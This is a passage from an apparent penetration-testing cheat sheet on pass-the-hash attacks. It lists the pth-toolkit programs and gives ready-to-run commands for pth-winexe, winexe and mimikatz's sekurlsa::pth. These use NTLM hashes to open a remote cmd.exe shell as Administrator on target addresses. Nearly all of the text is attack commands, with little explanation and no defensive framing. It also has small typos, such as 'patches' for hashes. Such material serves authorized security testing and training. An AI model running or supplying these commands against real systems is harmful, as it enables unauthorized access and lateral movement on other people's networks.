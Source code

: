 ### pth-toolkit

Before we look at one of the tools (`pth-winexe`) it should be noted that the “pth” suite contains a bunch of programs that have been patched to support authenticating with patches:

{% highlight PowerShell %}
pth-net
pth-rpcclient
pth-smbclient
pth-smbget
pth-sqsh
pth-winexe
pth-wmic
pth-wmis
{% endhighlight %}

Standard syntax for `pht-winexe`

{% highlight PowerShell %}
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 //10.10.10.200 cmd.exe
{% endhighlight %}

OS type: 0 - 32-bit, 1 - 64-bit, 2 - winexe will decide.

{% highlight PowerShell %}
pth-winexe --ostype=2 -U Administrator%aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 //10.10.10.200 cmd.exe
{% endhighlight %}

Alternative method

{% highlight PowerShell %}
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
pth-winexe -U Administrator% //10.10.10.200 cmd.exe
{% endhighlight %}

## Mimikatz

From within a command prompt (or PowerShell if you’re using Invoke-Mimikatz), run the sekurlsa::pth module and specify the user, domain and NTLM hash. This will pop open another cmd prompt as if you just successfully did a “runas”

{% highlight PowerShell %}
mimikatz # sekurlsa::pth /user:evilsaint /domain:acme.lab /ntlm:fc525c9683e8fe067095ba2ddc971889
{% endhighlight %}

### winexe

Method 1

{% highlight PowerShell %}
root@kali:~/Downloads# winexe -U Administrator%7bfd3ee62cbb0eba886450c5d6c50f12:f3acbe7ec27aadbe8deeaa0c651a64af //10.10.10.10 cmd.exe
{% endhighlight %}
